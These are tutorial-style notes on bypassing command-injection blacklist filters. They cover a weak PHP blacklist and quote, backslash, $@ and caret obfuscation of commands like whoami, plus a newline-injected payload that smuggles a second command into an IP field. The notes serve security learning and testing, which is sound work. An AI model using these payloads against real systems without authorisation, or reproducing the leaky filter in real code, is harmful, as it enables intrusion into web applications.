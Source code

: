 ### Overview

- Blacklist filters block specific **command words** (e.g., `whoami`, `cat`, etc.)
- Bypass is possible by **obfuscating the command syntax**
- Works by exploiting how **command shells ignore certain characters**

---

## Blacklist Example (PHP)
```php
$blacklist = ['whoami', 'cat', ...];
foreach ($blacklist as $word) {
    if (strpos($_POST['ip'], $word) !== false) {
        echo "Invalid input";
    }
}
```
Filter looks for **exact matches**—not command behavior—so obfuscated commands bypass it.

---
## Obfuscation Techniques

### 1. **Quote Insertion** (Linux & Windows)

- Insert **single `'`** or **double `"` quotes** inside the command:
```bash
w'h'o'am'i
w"h"o"am"i
```
Quotes must be of the **same type** and used in **even count**

### 2. **Backslash and `$@`** (Linux Only)

- Bash ignores:
    - **Backslash `\`**
    - **Positional parameter `$@`**
```bash
w\ho\am\i
who$@ami
```

### 3. **Caret `^` Character** (Windows Only)

- CMD ignores caret:
```cmd
who^ami
```

## Payload Example

Inject obfuscated command with newline and bypass filters:
```text
127.0.0.1%0aw'h'o'am'i
```

---
## Summary Table

|Method|OS Support|Example|Notes|
|---|---|---|---|
|Single Quotes `'`|Linux, Windows|`w'h'o'am'i`|Even count, same type|
|Double Quotes `"`|Linux, Windows|`w"h"o"am"i`|Same rule as above|
|Backslash `\`|Linux only|`w\ho\am\i`|Can be used freely|
|Positional `$@`|Linux only|`who$@ami`|Bash-specific|
|Caret `^`|Windows only|`who^ami`|CMD only|

---
## Tip

- Combine with **character bypass techniques** (e.g., `${IFS}` for space) to fully evade filters.
- Confirm bypass success by observing **command output changes**.
